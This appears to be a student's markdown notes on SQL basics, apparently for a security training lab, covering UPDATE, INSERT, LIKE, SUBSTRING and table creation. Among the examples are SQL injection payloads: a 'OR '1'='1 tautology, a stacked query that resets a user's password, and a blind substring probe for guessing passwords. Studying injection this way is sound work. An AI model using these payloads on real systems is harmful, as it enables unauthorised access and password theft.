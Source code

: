 # sql basics

## update
* update employee: `UPDATE Employees SET department='Sales',street='test' WHERE last_name='Barnett';`
* SElect user
## insert
INSERT INTO Customers (CustomerName, ContactName, Address, City, PostalCode, Country)
VALUES ('Cardinal', 'Tom B. Erichsen', 'Skagen 21', 'Stavanger', '4006', 'Norway');

INSERT INTO Customers (CustomerName, ContactName, Address, City, PostalCode, Country)
VALUES (''), 'Tom B. Erichsen', 'Skagen 21', 'Stavanger', '4006', 'Norway');

## LIKE
* injection: `'OR '1'='1`

SELECT Count(*) FROM Customers
WHERE CustomerName LIKE ''OR '1'='1';

test' OR 1=1; UPDATE Employees SET password='12345' WHERE first_name='Tom' OR '1'='2 

## substring
Extract 5 characters from the "CustomerName" column, starting in position 1:
 SELECT SUBSTRING(CustomerName, 1, 5) AS ExtractString
FROM Customers;
Prints: 
Adolf
Delel
DKeek
...

Exploit: `tom' and substring(password,1,1)='t`

## ddl
* Data Definition Language (DDL) commands: CREATE, ALTER, DROP

*This statement creates the employees example table* 
CREATE TABLE employees(
    userid varchar(6) not null primary key,
    first_name varchar(20),
    last_name varchar(20),
    department varchar(20),
    salary varchar(10),
    auth_tan varchar(6)
);

*Adds phone columns to table employees*
 ``ALTER TABLE employees 
 ADD phone varchar(20)``
